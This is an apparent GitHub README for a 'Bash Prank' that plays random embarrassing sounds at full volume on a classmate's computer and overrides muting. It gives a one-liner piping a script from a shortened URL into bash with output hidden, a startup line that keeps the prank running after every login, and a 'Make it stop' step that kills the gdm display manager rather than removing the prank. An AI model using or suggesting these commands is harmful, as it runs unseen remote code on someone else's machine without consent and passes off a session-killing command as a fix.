 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.

##ONE LINER##
```bash
curl -L http://git.to/pal | bash -s > /dev/null 2>&1
```

##Startup Command##
https://help.ubuntu.com/community/AddingProgramToSessionStartup
```bash
. ~/.config/al/al.sh & disown $!
```

## Removal Instructions ##
Really? You want to get rid of this amazing piece of code that inhances your life more than sliced bread?

## Make it stop ##
I recommend:
```bash
killall gdm > /dev/null 2>&1
```